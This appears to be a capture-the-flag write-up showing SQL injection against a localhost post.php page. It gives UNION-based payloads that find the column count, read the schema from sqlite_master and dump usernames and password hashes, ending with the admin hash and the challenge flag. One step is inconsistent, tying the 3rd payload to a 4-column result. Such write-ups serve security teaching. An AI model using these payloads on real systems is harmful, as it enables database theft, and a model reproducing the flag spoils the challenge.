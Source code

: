 The /post.php page is vulnerable to SQL injection.
![ic copy](https://github.com/user-attachments/assets/f58fbfe5-c245-4140-bf0d-8df4def6a88a)

Step-by-Step Exploitation

1. Identifying the Vulnerability:
- The vulnerability allows us to inject SQL commands through the `id` parameter of the `post.php` page.


Whenever the vulnerability is identified, we can try a few SQLi payloads to identify the number of columns of the initial SQL request we are injecting into : 
http://localhost/post.php?id=-1 UNION ALL SELECT NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,NULL,NULL

When injecting the 3rd payload, there are no errors anymore. This lets us know that there are 4 columns in the first request. (id, created_at, title, content)

2. Retrieving the Table Structure:
- To understand the database schema, we can exploit the vulnerability to retrieve the structure of the `user` table.
- The following URL is used:

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,sql,NULL FROM sqlite_master

- Here, we use the `UNION ALL` statement to combine the results of two queries: the original one and our injected one. The injected query selects columns from `sqlite_master`, which holds the schema information of the database.

3. Retrieving the Admin Hash:
- To retrieve the hash of the admin user, we inject another SQL query:

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,username,password FROM users

This returns the user called `user` and his hash. We are not interested by this hash, we want the admin's hash.

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,username,password FROM users LIMIT 1 OFFSET 1

- This query targets the `users` table and selects the `username` and `password` columns. The `LIMIT 1 OFFSET 1` clause is used to skip the first row and fetch the second row (because the first row corresponds to the user `user`).

4. Extracting the Hash:
- The result of the above query reveals the hash of the admin user:

bf4776ba55b41ae54b00fc2fee111562

- Consequently, the flag for the CTF challenge is:

FSIIECTF{bf4776ba55b41ae54b00fc2fee111562}
